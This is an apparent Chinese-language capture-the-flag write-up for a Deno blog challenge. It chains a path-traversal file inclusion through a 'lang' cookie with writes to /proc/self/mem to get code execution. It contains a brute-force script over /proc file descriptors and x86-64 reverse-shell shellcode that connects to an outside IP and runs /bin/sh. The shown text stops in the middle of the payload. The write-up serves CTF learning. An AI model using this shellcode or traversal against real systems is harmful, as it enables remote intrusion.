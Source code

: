 注意到它用了`include`，如果让它包含其它的，就可以LFI了

```python
# 爆破pid
import requests

HOST = "https://denoblog-26b8ed381fd6c5f9.mc.ax"

while True:
    for num in range(8, 15):
        for num2 in range(9,13):
            print(f"attempting: ../../../../../../../../proc/{num}/fd/{num2}")
            try:
                r = requests.get(HOST, cookies={"lang": f"../../../../../../../../proc/{num}/fd/{num2}"})
            except:
                pass
```

但是如何rce呢？一转pwn势

在dockerfile中有这样的权限设置

```dockerfile
RUN deno compile --allow-read --allow-write --allow-net app.ts
RUN chmod 755 /app/app
```

写入`/proc/self/mem`，覆盖内存，调用`JSON.stringify`来触发代码

> Now, where to write is the question. I ran `deno` with gdb, and printed the address of `Builtins_JsonStringify`. This address was at a constant offset each time, so I just clobbered this region in memory with my own shellcode, then ran `JSON.stringify()` to trigger my code.
>
> ```
> (gdb) p Builtins_JsonStringify
> $4 = {<text variable, no debug info>} 0x281d340 <Builtins_JsonStringify>
> ```
>
> So, I created my shellcode, and injected into the `deno` process at the right section, then ran `JSON.stringify()` all through an ejs template included with a file descriptor. Doing all of this gets you the flag!

payload

```python
import requests
import base64

HOST = "https://denoblog-26b8ed381fd6c5f9.mc.ax"

IPADDR = "1.1.1.1"
PORT = 12345

addr_hex = bytes.fromhex(''.join([hex(int(n))[2:].zfill(2) for n in IPADDR.split(".")]))
port_hex = bytes.fromhex(hex(PORT)[2:])

shellcode = \
b"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a" + \
b"\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0" + \
b"\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24" + \
b"\x02" + port_hex + b"\xc7\x44\x24\x04" + addr_hex + b"\x48\x89\xe6\x6a\x10" + \
b"\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48" + \
b"\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a" + \
b"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54" + \
b"\x5f\x6a\x3b\x58\x0f\x05"

payload = """
```